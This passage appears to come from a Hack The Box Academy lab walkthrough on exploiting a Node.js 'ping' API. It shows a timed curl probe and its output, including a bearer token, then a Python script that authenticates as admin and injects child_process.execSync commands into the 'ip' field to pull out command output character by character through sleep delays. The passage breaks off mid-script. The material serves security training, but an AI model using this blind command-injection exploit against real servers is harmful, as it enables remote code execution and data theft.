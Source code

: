 Now, students need to make a POST request to the `/api/service/ping` endpoint, prepending the request with the `time` command while specifying the `data.txt` file as the data to be sent:

Code: shell

```shell
time curl -X POST http://localhost:5000/api/service/ping -H "Content-Type: application/json" -H "Authorization: bearer <token>" -d @data.txt 
```

```
┌─[us-academy-1]─[10.10.15.254]─[htb-ac-594497@htb-5kfh5qltzn]─[~/skills_assessment]
└──╼ [★]$ time curl -X POST http://localhost:5000/api/service/ping -H "Content-Type: application/json" -H "Authorization: bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1aWQiOiIxIiwiaWF0IjoxNzAxMTkxNTMzLCJleHAiOjE3MDEyNzc5MzN9.a9gyocBkhBW1p3xhUCD65B0C8O4-I-rywj221RMighI" -d @data.txt 

real	0m2.038s
user	0m0.009s
sys	0m0.005s
```

Now armed with a working command injection, students need to move to the proof-of-concept phase, with the goal of retrieving the flag from the remote server. Students need to create a modified version of the script used in the `Exploit Development` section, again using blind exfiltration to extract the contents of the flag:

Code: python

```python
import requests
import json

# set server and port
server = "STMIP"
port = STMPO
url = f"http://{server}:{port}"
auth_endpoint = f"{url}/api/auth/authenticate"
qr_endpoint = f"{url}/api/service/ping"

# set headers and data for authentication
headers = {"Content-Type": "application/json"}
data = {"uid": "1", "sid": "1tmrka8x2c4398"}  # sid generated by sid_gen.js

# Get admin token
response = requests.post(auth_endpoint, headers=headers, data=json.dumps(data))
token = response.json()['token']

while True:
    # Get input command from user input
    user_input = input("\n> ")
    user_input = user_input.replace("'", '"')
    i = 0

    while True:
        i += 1
        # loop over entire printable ASCII
        for j in range(32, 127):
            # inject command into payload
            payload = {"external": "true",
                       "ip": "{}'); require('child_process').execSync('" + user_input + " | head -c " + str(i) + " | tail -c 1 | { read c; if [ \"$c\" = \"" + chr(j) + "\" ]; then sleep 2; fi; }')//"}

            # escape backslashes
            payload = json.dumps(payload).replace("\\\\", "\\\\\\")

            # send payload to server
```